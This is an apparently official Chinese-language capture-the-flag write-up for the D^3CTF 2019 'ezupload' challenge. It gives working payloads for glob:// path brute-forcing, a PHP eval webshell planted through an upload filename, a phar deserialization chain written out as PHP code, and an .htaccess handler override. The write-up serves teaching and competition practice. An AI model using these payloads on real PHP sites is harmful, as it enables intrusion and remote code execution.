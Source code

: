 # D^3ctf 2019 Official Writeup ezupload
> 出题人：Lou00@Vidar
> 考察点：glob://爆破 文件上传写shell
> 题目描述: webroot in /var/www/html
> hint1: webroot changes every 10 mins
> hint2: glob
> hint3: https://www.php.net/manual/en/language.oop5.decon.php   Pay attention to the notes in the article 

## 前言
赛后看到了Nu1l的非预期,直接把第一考点绕过了
导致给的一些hint没啥用 (hint真是害人不浅_(:з」∠)_
## 预期解
通过审计代码可以发现存在反序列化漏洞,可以任意文件写入
但是如果是用相对路径的话,发现无法写入
通过hint3知道
![-w828](http://image.lou00.top/img/ezupload/15747757481797.jpg)
在析构函数中工作目录可能会变
以下代码可以测试
![-w344](http://image.lou00.top/img/ezupload/15747755154564.jpg)
意思是要找到绝对路径
所以第一部分的payload是
```
action=count&url=1&filename=1&dir=glob:///var/www/html/*/upload/{your_upload_path}/*
```
通过爆破得到路径(然而非了
得到路径后就可以通过文件名写shell了
构造类似与下面的文件名
```
action=upload&url=http://xxx&filename=<?php echo 1.1;eval($_GET["a"]);
```
构造反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
    public function __construct($usedir,$url,$filename){
	$this->userdir = $usedir;
	$this->url = $url;
	$this->filename = $filename;
    }
}
$a = new dir('upload/{your_upload_path}','','');
$b = new dir($a,'','/var/www/html/xxx/upload/{your_upload_path}/2');
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;"); 
$phar->setMetadata($b); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
echo urlencode(serialize($b));
```
上传后通过`file_get_contents`触发

```
action=upload&url=phar://upload/{your_upload_path}/1.jpg&filename=2.jpg
```
然后就会发现一个带有`<?`的txt文件
最后上传一个`.htaccess`文件
内容为

```
AddHandler php7-script .txt
```
即可解析php
最后是bypass `open_basedir`
最后附上一份比赛时用于检测flag的[脚本](https://github.com/Lou00/d3ctf_2019_ezupload/blob/master/poc.py)
供师傅们参考
